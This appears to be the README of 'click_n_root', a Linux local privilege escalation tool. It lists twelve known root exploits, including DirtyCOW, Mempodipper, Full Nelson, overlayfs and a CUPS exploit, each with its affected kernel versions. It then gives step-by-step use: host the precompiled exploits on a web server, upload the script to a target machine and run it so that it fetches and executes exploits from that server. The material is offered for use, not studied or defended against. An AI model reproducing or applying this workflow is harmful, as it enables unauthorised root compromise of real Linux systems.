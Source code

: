 # click_n_root - Linux Local Root Exploiter  
This is a small script to make the local exploitation process easier. It downloads the precompiled exploit for x86 and x64 architectures and can also automatic compile local on the target system

## Exploit-List:

1.  DirtyCOW AddUser 		(Ubuntu <4.4/<3.13; Debian <4.7.8)
2.  DirtyCOW Pokeball 		(Linux Kernel 2.6.22 < 3.9)
3.  Mempodipper 		(Linux 2.6.39<3.2.2 Gentoo/Debian)
4.  Full Nelson 		(Linux 2.6.31<2.6.37 RedHat/Debiab)
5.  Half Nelson 		(Linux Kernel 2.6.0<2.6.36.2)
6.  Clown NewUser		(Linux 3.0<3.3.5)
7.  fasync_helper 		(Linux Kernel <2.6.28)
8.  overlayfs 			(Linux 3.13.0<3.19)
9.  pipe.c root(kit?) 		(Kernel 2.6.x (32 Bit only!))
10. PERF_EVENTS 		(Kernel 2.6.32-3.8.10)
11. CAN BCM Exploit 		(Kernel <2.6.36)
12. Cups local Exploit 	(Cups <1.1.17)

## How to use it:

1. Copy the content of the zip to your web-root (default: /var/www)
2. Now your web-root directory should have this structur: eg. /var/www/click_n_root/
  1. The folders 1, 2,... etc contain several pre-compiled Exploits
3. Upload the click_n_root.sh -Script to the target linux machine
4. Give executable rights to the click_n_root -Script (chmod 755 KlickAndRoot.sh)
5. Execute the script with given Server and Folder and choose an option/exploit
  1. E.g.: ./click_n_root 192.168.0.200/click_n_root

### Feel free to modify the script to your needs.

Cheers!
